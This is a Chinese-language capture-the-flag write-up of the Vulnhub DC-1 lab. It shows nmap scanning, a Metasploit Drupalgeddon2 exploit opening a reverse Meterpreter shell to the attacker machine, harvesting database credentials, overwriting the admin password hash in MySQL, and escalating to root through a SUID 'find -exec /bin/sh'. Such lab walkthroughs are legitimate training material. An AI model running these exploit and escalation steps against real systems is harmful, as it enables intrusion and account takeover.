


# DC-1 Vulnhub靶场复现

## 主机发现

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/DC-1]
└─$ sudo nmap -sn 10.10.10.0/24
[sudo] kali 的密码：
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-18 15:35 -0400
Nmap scan report for 10.10.10.1
Host is up (0.0010s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 10.10.10.2
Host is up (0.00014s latency).
MAC Address: 00:50:56:F0:E1:42 (VMware)
Nmap scan report for 10.10.10.131
Host is up (0.00018s latency).
MAC Address: 00:0C:29:99:02:5C (VMware)
Nmap scan report for 10.10.10.254
Host is up (0.00018s latency).
MAC Address: 00:50:56:E9:73:E2 (VMware)
Nmap scan report for 10.10.10.10
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.92 seconds
```

靶机ip为10.10.10.131

## 端口扫描

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/DC-1]
└─$ sudo nmap --min-rate 1000 -p- 10.10.10.131
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-18 15:36 -0400
Nmap scan report for 10.10.10.131
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
56744/tcp open  unknown
MAC Address: 00:0C:29:99:02:5C (VMware)
Nmap done: 1 IP address (1 host up) scanned in 4.99 seconds
┌──(kali㉿kali)-[~/Labs/Vulnhub/DC-1]
└─$ sudo nmap -sT -sV -sC -O -p 80,22,111,56744 10.10.10.131
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-18 15:37 -0400
Nmap scan report for 10.10.10.131
Host is up (0.00049s latency).
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey:
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.2.22 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          39494/udp6  status
|   100024  1          40468/udp   status
|   100024  1          56744/tcp   status
|_  100024  1          60199/tcp6  status
56744/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:99:02:5C (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.06 seconds
```

| 端口      | 服务    | 版本                           | 利用价值 |
| --------- | ------- | ------------------------------ | -------- |
| 22/tcp    | SSH     | OpenSSH 6.0p1 Debian 4+deb7u7  |          |
| 80/tcp    | HTTP    | Apache httpd 2.2.22 ((Debian)) |          |
| 111/tcp   | rpcbind | rpcbind 2-4                    |          |
| 56744/tcp | unknown |                                |          |

可以利用的似乎只有22 80 端口 ，并且版本较低

访问80端口，配合指纹插件



## 漏洞扫描

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/DC-1]
└─$ sudo nmap --script=vuln -p22,80 10.10.10.131
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-18 15:51 -0400
Nmap scan report for 10.10.10.131
Host is up (0.00058s latency).
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-vuln-cve2014-3704:
|   VULNERABLE:
|   Drupal - pre Auth SQL Injection Vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-3704
|         The expandArguments function in the database abstraction API in
|         Drupal core 7.x before 7.32 does not properly construct prepared
|         statements, which allows remote attackers to conduct SQL injection
|         attacks via an array containing crafted keys.
|
|     Disclosure date: 2014-10-15
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704
|       https://www.sektioneins.de/en/advisories/advisory-012014-drupal-pre-auth-sql-injection-vulnerability.html
|       https://www.drupal.org/SA-CORE-2014-005
|_      http://www.securityfocus.com/bid/70595
|_http-sql-injection: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.131
|   Found the following possible CSRF vulnerabilities:
|
|     Path: http://10.10.10.131:80/
|     Form id: user-login-form
|     Form action: /node?destination=node
|
|     Path: http://10.10.10.131:80/node?destination=node
|     Form id: user-login-form
|     Form action: /node?destination=node
|
|     Path: http://10.10.10.131:80/user/password
|     Form id: user-pass
|     Form action: /user/password
|
|     Path: http://10.10.10.131:80/user/register
|     Form id: user-register-form
|     Form action: /user/register
|
|     Path: http://10.10.10.131:80/user/
|     Form id: user-login
|     Form action: /user/
|
|     Path: http://10.10.10.131:80/user
|     Form id: user-login
|_    Form action: /user
| http-enum:
|   /rss.xml: RSS or Atom feed
|   /robots.txt: Robots file
|   /UPGRADE.txt: Drupal file
|   /INSTALL.txt: Drupal file
|   /INSTALL.mysql.txt: Drupal file
|   /INSTALL.pgsql.txt: Drupal file
|   /: Drupal version 7
|   /README: Interesting, a readme.
|   /README.txt: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /user/: Potentially interesting folder
MAC Address: 00:0C:29:99:02:5C (VMware)

Nmap done: 1 IP address (1 host up) scanned in 196.14 seconds

```

尝试sqlmap 一把梭无果，决定启动msf

```shell
msf > search Drupal

Matching Modules
================

   #   Name                                                              Disclosure Date  Rank       Check  Description
   -   ----                                                              ---------------  ----       -----  -----------
   0   exploit/unix/webapp/drupal_coder_exec                             2016-07-13       excellent  Yes    Drupal CODER Module Remote Command Execution
   1   exploit/unix/webapp/drupal_drupalgeddon2                          2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
   2     \_ target: Automatic (PHP In-Memory)                            .                .          .      .
   3     \_ target: Automatic (PHP Dropper)                              .                .          .      .
   4     \_ target: Automatic (Unix In-Memory)                           .                .          .      .
   5     \_ target: Automatic (Linux Dropper)                            .                .          .      .
   6     \_ target: Drupal 7.x (PHP In-Memory)                           .                .          .      .
   7     \_ target: Drupal 7.x (PHP Dropper)                             .                .          .      .
   8     \_ target: Drupal 7.x (Unix In-Memory)                          .                .          .      .
   9     \_ target: Drupal 7.x (Linux Dropper)                           .                .          .      .
   10    \_ target: Drupal 8.x (PHP In-Memory)                           .                .          .      .
   11    \_ target: Drupal 8.x (PHP Dropper)                             .                .          .      .
   12    \_ target: Drupal 8.x (Unix In-Memory)                          .                .          .      .
   13    \_ target: Drupal 8.x (Linux Dropper)                           .                .          .      .
   14    \_ AKA: SA-CORE-2018-002                                        .                .          .      .
   15    \_ AKA: Drupalgeddon 2                                          .                .          .      .
   16  exploit/multi/http/drupal_drupageddon                             2014-10-15       excellent  No     Drupal HTTP Parameter Key/Value SQL Injection
   17    \_ target: Drupal 7.0 - 7.31 (form-cache PHP injection method)  .                .          .      .
   18    \_ target: Drupal 7.0 - 7.31 (user-post PHP injection method)   .                .          .      .
   19  auxiliary/gather/drupal_openid_xxe                                2012-10-17       normal     Yes    Drupal OpenID External Entity Injection
   20  exploit/unix/webapp/drupal_restws_exec                            2016-07-13       excellent  Yes    Drupal RESTWS Module Remote PHP Code Execution
   21  exploit/unix/webapp/drupal_restws_unserialize                     2019-02-20       normal     Yes    Drupal RESTful Web Services unserialize() RCE
   22    \_ target: PHP In-Memory                                        .                .          .      .
   23    \_ target: Unix In-Memory                                       .                .          .      .
   24  auxiliary/scanner/http/drupal_views_user_enum                     2010-07-02       normal     Yes    Drupal Views Module Users Enumeration
   25  exploit/unix/webapp/php_xmlrpc_eval                               2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution
Interact with a module by name or index. For example info 25, use 25 or use exploit/unix/webapp/php_xmlrpc_eval
```

挨个尝试并检查

```shell
msf > use 1
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 10.10.10.131
RHOSTS => 10.10.10.131
msf exploit(unix/webapp/drupal_drupalgeddon2) > check
[*] 10.10.10.131:80 - The service is running, but could not be validated. Detected version 7
msf exploit(unix/webapp/drupal_drupalgeddon2) > run
[*] Started reverse TCP handler on 10.10.10.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Detected version 7
[*] Sending stage (45739 bytes) to 10.10.10.131
[*] Meterpreter session 1 opened (10.10.10.10:4444 -> 10.10.10.131:40053) at 2026-07-18 16:13:01 -0400
```

## 获取shell并升级为交互shell并且获得flag1

```shell
meterpreter > shell
Process 3421 created.
Channel 0 created.
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@DC-1:/var/www$ ls
ls
COPYRIGHT.txt       LICENSE.txt      cron.php     misc        sites
INSTALL.mysql.txt   MAINTAINERS.txt  flag1.txt    modules     themes
INSTALL.pgsql.txt   README.txt       includes     profiles    update.php
INSTALL.sqlite.txt  UPGRADE.txt      index.php    robots.txt  web.config
INSTALL.txt         authorize.php    install.php  scripts     xmlrpc.php
www-data@DC-1:/var/www$ ls -liah
ls -liah
total 188K
151901 drwxr-xr-x  9 www-data www-data 4.0K Feb 19  2019 .
    12 drwxr-xr-x 12 root     root     4.0K Feb 19  2019 ..
152291 -rw-r--r--  1 www-data www-data  174 Nov 21  2013 .gitignore
152292 -rw-r--r--  1 www-data www-data 5.7K Nov 21  2013 .htaccess
153097 -rw-r--r--  1 www-data www-data 1.5K Nov 21  2013 COPYRIGHT.txt
152080 -rw-r--r--  1 www-data www-data 1.5K Nov 21  2013 INSTALL.mysql.txt
152079 -rw-r--r--  1 www-data www-data 1.9K Nov 21  2013 INSTALL.pgsql.txt
151903 -rw-r--r--  1 www-data www-data 1.3K Nov 21  2013 INSTALL.sqlite.txt
152050 -rw-r--r--  1 www-data www-data  18K Nov 21  2013 INSTALL.txt
152290 -rwxr-xr-x  1 www-data www-data  18K Nov  1  2013 LICENSE.txt
151905 -rw-r--r--  1 www-data www-data 8.0K Nov 21  2013 MAINTAINERS.txt
151904 -rw-r--r--  1 www-data www-data 5.3K Nov 21  2013 README.txt
152277 -rw-r--r--  1 www-data www-data 9.5K Nov 21  2013 UPGRADE.txt
152276 -rw-r--r--  1 www-data www-data 6.5K Nov 21  2013 authorize.php
152051 -rw-r--r--  1 www-data www-data  720 Nov 21  2013 cron.php
150800 -rw-r--r--  1 www-data www-data   52 Feb 19  2019 flag1.txt
152201 drwxr-xr-x  4 www-data www-data 4.0K Nov 21  2013 includes
152052 -rw-r--r--  1 www-data www-data  529 Nov 21  2013 index.php
151902 -rw-r--r--  1 www-data www-data  703 Nov 21  2013 install.php
151919 drwxr-xr-x  4 www-data www-data 4.0K Nov 21  2013 misc
152293 drwxr-xr-x 42 www-data www-data 4.0K Nov 21  2013 modules
152053 drwxr-xr-x  5 www-data www-data 4.0K Nov 21  2013 profiles
152289 -rw-r--r--  1 www-data www-data 1.6K Nov 21  2013 robots.txt
151907 drwxr-xr-x  2 www-data www-data 4.0K Nov 21  2013 scripts
152279 drwxr-xr-x  4 www-data www-data 4.0K Nov 21  2013 sites
152081 drwxr-xr-x  7 www-data www-data 4.0K Nov 21  2013 themes
152200 -rw-r--r--  1 www-data www-data  20K Nov 21  2013 update.php
152078 -rw-r--r--  1 www-data www-data 2.2K Nov 21  2013 web.config
151906 -rw-r--r--  1 www-data www-data  417 Nov 21  2013 xmlrpc.php
www-data@DC-1:/var/www$ cat flag1.txt
cat flag1.txt
Every good CMS needs a config file - and so do you.
www-data@DC-1:/var/www$
```

flag1藏着提示，接下来我们需要找到这个cms的config

注意到有个sites 文件夹寻找一下

```shell
www-data@DC-1:/var/www$ cd sites
cd sites
www-data@DC-1:/var/www/sites$ ls -liah
ls -liah
total 24K
152279 drwxr-xr-x 4 www-data www-data 4.0K Nov 21  2013 .
151901 drwxr-xr-x 9 www-data www-data 4.0K Feb 19  2019 ..
152280 -rw-r--r-- 1 www-data www-data  904 Nov 21  2013 README.txt
152284 drwxr-xr-x 4 www-data www-data 4.0K Nov 21  2013 all
152282 dr-xr-xr-x 3 www-data www-data 4.0K Feb 19  2019 default
152281 -rw-r--r-- 1 www-data www-data 2.4K Nov 21  2013 example.sites.php
www-data@DC-1:/var/www/sites$ cd default
cd default
www-data@DC-1:/var/www/sites/default$ ls -liah
ls -liah
total 52K
152282 dr-xr-xr-x 3 www-data www-data 4.0K Feb 19  2019 .
152279 drwxr-xr-x 4 www-data www-data 4.0K Nov 21  2013 ..
152283 -rw-r--r-- 1 www-data www-data  23K Nov 21  2013 default.settings.php
150709 drwxrwxr-x 3 www-data www-data 4.0K Feb 19  2019 files
150704 -r--r--r-- 1 www-data www-data  16K Feb 19  2019 settings.php
```

## 找到了并读取寻找关键信息获得flag2

```shell
www-data@DC-1:/var/www/sites/default$ cat settings.php
<?php
/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */
$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

提示：暴力破解和字典攻击不是获取访问权限的唯一方法（你肯定需要访问权限）。有了这些凭据你能做什么？

## 登陆MYSQL

```shell
www-data@DC-1:/var/www/sites/default$ mysql -u dbuser -pR0ck3t
mysql -u dbuser -pR0ck3t
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2436
Server version: 5.5.60-0+deb7u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use drupaldb;
use drupaldb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select name, pass from users;
select name, pass from users;
+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
|       |                                                         |
| admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR |
| Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
+-------+---------------------------------------------------------+
3 rows in set (0.01 sec)
```

获取到了哈希密码

先退出 MySQL（输入 `exit` 回到 Shell），然后执行 Drupal 自带的密码脚本(要先切换到www目录)

```shell
php /var/www/scripts/password-hash.sh 123456
```

```shell
www-data@DC-1:/var/www$ php /var/www/scripts/password-hash.sh 123456
php /var/www/scripts/password-hash.sh 123456
password: 123456                hash: $S$DsDCtVFLMdMUZ3yHMnlkatK2yJ8NJu99z93EFSUtLx709Y9MkhgD
www-data@DC-1:/var/www$
```

复制获得的hash

## 重新登陆这个MYSQL替换原来的hash密码

```shell
www-data@DC-1:/var/www$ mysql -u dbuser -pR0ck3t
mysql -u dbuser -pR0ck3t
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2437
Server version: 5.5.60-0+deb7u1 (Debian)
Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> use drupaldb;
use drupaldb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> UPDATE users SET pass = '$S$DsDCtVFLMdMUZ3yHMnlkatK2yJ8NJu99z93EFSUtLx709Y9MkhgD' WHERE name = 'admin';
<lkatK2yJ8NJu99z93EFSUtLx709Y9MkhgD' WHERE name = 'admin';
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0
mysql> exit
```

## 访问http://10.10.10.131/user 之前nmap暴露出来的路径获取flag3



登陆之后点击dashboard 看到flag3点击获得

Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow

特殊的PERMS权限将有助于找到密码，但你需要执行`-exec`命令来弄清楚如何获取shadow文件中的内容。

## 根据提示我们需要找到密码并读取并找到了flag4

直接cat /ect/passwd

```shell
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:104::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:105:109:MySQL Server,,,:/nonexistent:/bin/false
flag4:x:1001:1001:Flag4,,,:/home/flag4:/bin/bash
```

找到了flag4的位置

```shell
www-data@DC-1:/etc$ cd /home
cd /home
www-data@DC-1:/home$ ls
ls
flag4
www-data@DC-1:/home$ cat flag4
cat flag4
cat: flag4: Is a directory
www-data@DC-1:/home$ cd flag4
cd flag4
www-data@DC-1:/home/flag4$ ls
ls
flag4.txt
www-data@DC-1:/home/flag4$ cat flag4.txt
cat flag4.txt
Can you use this same method to find or access the flag in root?
Probably. But perhaps it's not that easy.  Or maybe it is?
www-data@DC-1:/home/flag4$
```

## 很明显提示我们 suid 提权

先find有权限的文件

```shell
www-data@DC-1:/home/flag4$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
www-data@DC-1:/home/flag4$
```

找到了这个find文件夹

```shell
www-data@DC-1:/home/flag4$ find . -exec /bin/sh \;
find . -exec /bin/sh \;
# whoami
whoami
root
#
```

## 获取flag5渗透结束

```shell
# cd root
cd root
/bin/sh: 1: cd: can't cd to root
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
thefinalflag.txt
# cat thefinalflag.txt
cat thefinalflag.txt
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
#
```

## 总结

nmap进行信息收集，发现只能22和80端口入手-->80端口是个Drupal cms通过指纹插件和msf 获取shell 获取flag1-->根据flag1提示读取settings.php获得mysql 登陆凭证和flag2-->flag2提示获得凭证会干什么于是登陆mysql替换加盐密码根据nmap扫描获取的路径进行登陆在仪表盘获取flag3-->flag3提示需要用到find和密码于是读取/etc/passwd 获取flag4.txt -->提示要以同样的方式获得flag5

利用的工具

| 工具       | 作用                |
| ---------- | ------------------- |
| nmap       | 进行信息收集        |
| Metasploit | 获取shell           |
| sqlmap     | 验证是否sql注入存在 |
